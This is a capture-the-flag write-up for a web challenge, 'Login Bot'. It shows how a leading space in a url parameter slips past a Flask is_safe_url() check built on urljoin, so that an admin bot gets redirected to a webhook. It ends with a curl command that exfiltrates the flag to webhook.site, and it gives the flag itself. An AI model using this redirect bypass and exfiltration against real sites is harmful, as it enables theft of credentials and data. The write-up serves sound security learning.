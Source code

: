 # Login Bot
Category: Web

## Description
I made a reverse blog where anyone can blog but only I can see it (Opposite of me blogging and everyone seeing). You can post your content with my bot and I'll read it.

Sometimes weird errors happen and the bot gets stuck. I've fixed it now so it should work!

- Junhua

[http://34.124.157.94:5002](http://34.124.157.94:5002)

Attachments: [dist.zip](attachments/dist.zip)

## Write-up
- Upon analyzing the source code, we discovered that the flag is hidden within the password of the `admin` account.
- We identified an unauthenticated `/send_post` endpoint that accepts three arguments: `title`, `content`, `and` url. The first two are required for creating a post, while the third specifies the URL to which the `admin` will be redirected after logging in (default is `/`).
- When the `/send_post` endpoint is accessed, the `admin` is redirected to `http://34.124.157.94:5002/login?next={url}` and makes a POST request to the same URL to perform the login. After successful login, the `admin` is redirected to the specified url before creating our post.
- Initially, we attempted to manipulate the `url` parameter to point to our webhook, hoping that the redirection after login would lead to our webhook and exfiltrate the flag. However, we encountered a challenge with the `is_safe_url()` method, which checks if the `netloc` of the host URL matches the `netloc` of our webhook URL. Since they are different, it was impossible to satisfy this check.
- Here is the logic of the `is_safe_url()` method:
```
def is_safe_url(target):
    """Check if the target URL is safe to redirect to. Only works for within Flask request context."""
    ref_url = urlparse(request.host_url)
    test_url = urlparse(urljoin(request.host_url, target))
    return test_url.scheme in ('http', 'https') and \
           ref_url.netloc == test_url.netloc
```
- Fortunately, we discovered a workaround by prepending a space to our `url` input. When using `urljoin()` to join two different domain URLs, it will just return the latter as the joined URL. However a peculiar behavior occurs when the second parameter is prepended with a space, it is not considered a "valid URL" and as a result the function simply appends the second parameter URL to the first parameter URL, without performing any validation.
- By prepending a space to our second parameter, the `test_url` became `http://34.124.157.94:5002/ https:/webhook.site/774fac7f-86a1-4682-a2c0-883ea13d0a6a`. As a result, both `ref_url` and `test_url` had the same netloc, enabling us to bypass the `is_safe_url()` check.
- Since the `redirect()` method after the check was called on our `url` input directly, without being appended with the host URL just like how it was checked, we were able to redirect to any arbitrary URL.
- Armed with this knowledge, we crafted a command to exfiltrate the flag to our webhook URL:
```
curl -X POST -d "title=a&content=a&url=%20https://webhook.site/774fac7f-86a1-4682-a2c0-883ea13d0a6a" http://34.124.157.94:5002/send_post
```

Flag: `grey{r3d1recTs_r3Dir3cts_4nd_4ll_0f_th3_r3d1r3ct5}`

PS: Unrelated but it is interesting to note the result of `urlparse`'s netloc: [https://github.com/python/cpython/issues/102153#issuecomment-1455710285](https://github.com/python/cpython/issues/102153#issuecomment-1455710285)
